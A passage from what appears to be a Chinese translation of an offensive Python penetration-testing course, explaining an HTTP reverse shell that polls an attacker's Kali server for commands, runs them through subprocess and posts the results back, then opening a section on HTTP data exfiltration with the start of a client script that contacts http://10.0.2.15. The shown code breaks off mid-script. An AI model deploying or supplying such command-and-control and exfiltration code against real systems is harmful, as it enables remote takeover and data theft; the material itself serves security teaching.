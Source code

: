 在这里，我们使用 subprocess 来创建一个 shell，然后我们创建一个 `GET` 请求发送到我们的 Kali 服务器。请注意，`req.text` 函数返回的是我们通过发送 `GET` 请求所获得的文本。在这个例子中，`text` 就是我们应该执行的命令。现在，一旦我们获得了命令，我们将启动一个子进程，执行结果或错误将通过 `POST` 方法发送，并且只会是单行的。然后，进程将休眠 3 秒，再次重复整个过程。`time.sleep()` 这部分只是为了保险——防止我们遇到数据包丢失或意外的错误。

此外，你可以通过使用 `try` 和 `except` 函数添加一些异常处理来增强这个脚本。

一旦我们在双方运行脚本，我们将在服务器端获得我们的 shell，并尝试在当前工作目录中进行导航。执行 `ipconfig`，你将获得完整的 IP 配置信息。现在，错误地输入一个命令，将会抛出错误信息，如下所示：

![](img/00027.jpeg)

最后，我们通过在服务器端执行 `terminate` 来终止会话。一旦我们这样做，我们将在客户端退出脚本，而在服务器端退出脚本时，我们需要按 *Ctrl* + *C* 来终止循环。服务器将通过显示 `[!] Server is terminated` 消息来终止。

# 数据外泄 – HTTP

和我们之前在 TCP 反向 shell 中做的类似，我们将进行一个从目标机器到攻击者机器的文件传输。

# 客户端

幸运的是，`Requests` 库支持仅用两行代码提交一个文件：

```
# Python For Offensive PenTest: A Complete Practical Course - All rights reserved 
# Follow me on LinkedIn https://jo.linkedin.com/in/python2

# HTTP Data Exfiltration Client

import requests 
import subprocess 
import os
import time

while True: 

    req = requests.get('http://10.0.2.15')
    command = req.text

```